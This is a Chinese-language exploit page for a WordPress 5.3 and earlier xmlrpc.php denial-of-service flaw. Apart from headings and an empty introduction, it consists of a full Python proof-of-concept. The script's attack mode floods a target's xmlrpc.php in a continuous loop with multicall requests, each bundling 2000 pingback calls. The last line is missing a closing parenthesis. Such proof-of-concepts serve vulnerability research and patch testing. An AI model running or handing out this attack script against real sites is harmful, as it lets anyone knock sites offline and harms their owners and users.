 WordPress \<=5.3.x xmlrpc.php拒绝服务漏洞
=========================================

一、漏洞简介
------------

二、漏洞影响
------------

WordPress \<= 5.3

三、复现过程
------------

漏洞文件

    /wordpress/xmlrpc.php
    /wp/xmlrpc.php
    from urllib.parse import urlparse
    import sys, uuid, urllib3, requests
    urllib3.disable_warnings()

    DEBUG = True 
    def dprint(X):
        if DEBUG: print(X)

    COUNT=0
    def build_entry(pingback,target):
        global COUNT
        COUNT +=1
        entry  = "<value><struct><member><name>methodName</name><value>pingback.ping</value></member><member>"
        entry += f"<name>params</name><value><array><data><value>{pingback}/{COUNT}</value>"
        #entry += f"<name>params</name><value><array><data><value>{pingback}/{uuid.uuid4()}</value>"
        entry += f"<value>{target}/?p=1</value></data></array></value></member></struct></value>"
        #entry += f"<value>{target}/#e</value></data></array></value></member></struct></value>" # taxes DB more
        return entry

    def build_request(pingback,target,entries):
        prefix   = "<methodCall><methodName>system.multicall</methodName><params><param><array>"
        suffix   = "</array></param></params></methodCall>"
        request  = prefix
        for _ in range(0,entries): request += build_entry(pingback,target)
        request += suffix
        return request

    def usage_die():
        print(f"[!] Usage: {sys.argv[0]} <check/attack> <pingback url> <target url>")
        exit(1)

    def get_args():
        if len(sys.argv) != 4: usage_die()
        action   = sys.argv[1]
        pingback = sys.argv[2]
        target   = sys.argv[3]
        if action not in ("check","attack"): usage_die()
        for URL in (pingback,target):
            res = urlparse(URL)
            if not all((res.scheme,res.netloc)): usage_die()
        return (action,pingback,target)

    def main(action,pingback,target):
        print("[>] WordPress <= 5.3.? Denial-of-Service PoC")
        print("[>] @roddux 2019 | Arcturus Security | labs.arcturus.net")
        # he checc
        if action == "check":    entries = 2
        # he attacc
        elif action == "attack": entries = 2000
        # but most importantly
        print(f"[+] Running in {action} mode")
        # he pingbacc
        print(f"[+] Got pingback URL \"{pingback}\"")
        print(f"[+] Got target URL \"{target}\"")
        print(f"[+] Building {entries} pingback calls")
        # entries = 1000 # TESTING
        xmldata = build_request(pingback,target,entries)
        dprint("[+] Request:\n")
        dprint(xmldata+"\n")
        print(f"[+] Request size: {len(xmldata)} bytes")
        if action == "attack":
            print("[+] Starting attack loop, CTRL+C to stop...")
            rcount = 0
            try:
                while True:
                        try:
                            resp  = requests.post(f"{target}/xmlrpc.php", xmldata, verify=False, allow_redirects=False, timeout=.2)
                            #dprint(resp.content.decode("UTF-8")[0:500]+"\n")
                            if resp.status_code != 200:
                                print(f"[!] Received odd status ({resp.status_code}) -- DoS successful?")
                        except (requests.exceptions.Timeout, requests.exceptions.ConnectionError) as e:
                            pass
                        rcount += 1
                        print(f"\r[+] Requests sent: {rcount}",end="")
            except KeyboardInterrupt:
                print("\n[>] Attack finished",end="\n\n")
                exit(0)
        elif action == "check":
            print("[+] Sending check request")
            try:
                resp = requests.post(f"{target}/xmlrpc.php", xmldata, verify=False, allow_redirects=False, timeout=10)
                if resp.status_code != 200:
                    print(f"[!] Received odd status ({resp.status_code}) -- check target url")
                print("[+] Request sent")
                print("[+] Response headers:\n")
                print(resp.headers)
                print("[+] Response dump:")
                print(resp.content.decode("UTF-8"))
                print("[+] Here's the part where you figure out if it's vulnerable, because I CBA to code it")
            except (requests.exceptions.Timeout, requests.exceptions.ConnectionError) as e:
                print("[!] Connection error")
                exit(1)
            print("[>] Check finished")

    if __name__ == "__main__":
        main(*get_args()
